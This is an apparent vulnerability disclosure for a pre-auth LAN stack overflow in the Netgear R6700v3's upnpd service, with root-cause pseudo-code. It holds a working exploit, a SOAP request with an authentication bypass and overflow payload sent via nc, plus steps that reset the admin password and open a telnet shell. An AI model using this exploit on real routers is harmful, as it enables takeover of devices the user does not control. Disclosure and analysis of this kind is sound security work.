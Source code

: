# Pre-auth LAN RCE in Netgear R6700v3

Disclosed is a pre-auth LAN RCE based on a stack overflow in the router from Netgear, model AC1750 R6700v3. This targets the firmware v1.0.4.106 and the vulnerable target binary is upnpd. This particular exploit against the vulnerability will not work against newer firmware versions.

## Details

The vulnerability is in the handling of requests to upnp, specifically a SOAPAction for setting a MAC address. This SOAPAction requires usually authentication, but as shown previously [1] the authentication can be bypassed by adding two SOAPActions `urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin` and `SOAPAction: urn:NETGEAR-ROUTER:service:DeviceInfo:1#SetDeviceInfoByMAC` in order to bypass the authentication logic.

A long string provided in the `NewMACAddress` tag causes the buffer overflow. Details for this can be found below in the root cause analysis.

The following request, performs similar to [1] a password reset using a single gadget by jumping to the procedure `acosNvramConfig_set`, which is located at `0x39b30` in v1.0.4.106. The input password to acosNvramConfig_set will be `password`.

```
BODY='<?xml version="1.0"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Body>
<NewMACAddress>'"$(printf 'a%.0s' {0..1015})"'\x30\x9b\x03</NewMACAddress>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>'
BODY_LEN=$(echo -n ${BODY} | wc -c )
echo -ne "POST soap/server_sa HTTP/1.0\r\nHost: 192.168.1.1:5000\r\nContent-Type: application/x-www-form-urlencoded\r\nSOAPAction: urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin\r\nSOAPAction: urn:NETGEAR-ROUTER:service:DeviceInfo:1#SetDeviceInfoByMAC\r\nContent-Length: ${BODY_LEN}\r\n\r\n${BODY}" | nc -i 1 192.168.1.1 5000
```

Next, login to the web interface with the user admin and password `password`. Change the password as for some reason this seem to be required, then run the well-known telnetenable tool [2] in order to open the telnet port and login to the router for shell access.

Summary:

1) Run the request with the exploit payload to reset the password
2) Login to the web interface with user admin and password `password`
3) Change the admin password
4) Run telnetenable to gain shell access: ./telnetenable <router_ip> <router_lan_port_mac> admin <new_password>

## Root cause analysis
The root cause exists in the function at address 0x3b8f8 in v1.0.4.106. The relevant pseudo-code is:
```
   ..
   .
   v61 = stristr(v13, "NewMACAddress");
    if ( v61 )
    {
      v62 = (const char *)(stristr(v13, "NewMACAddress xsi:type=\"xsd:string\">") ? v61 + 36 : v61 + 14);
      strncpy(byte_DB00C, "", 0x13u);
      v63 = stristr(v13, "</NewMACAddress>");
      if ( v63 )
      {
        v64 = v63 - (_DWORD)v62;
        strncpy(byte_DB00C, "", 0x13u);
        strncpy(byte_DB00C, v62, v64);
        byte_DB00C[v64] = 0;
        sub_C310(3, "NewMACAddress = %s\n", byte_DB00C);
      }
    }
    .
    ..
```
which performs a copy to a memory location without any size limitations in `strncpy(byte_DB00C, v62, v64)`.

## References
[1] https://github.com/rdomanski/Exploits_and_Advisories/blob/master/advisories/Pwn2Own/Tokyo2019/tokyo_drift.md

[2] https://github.com/insanid/NetgearTelnetEnable
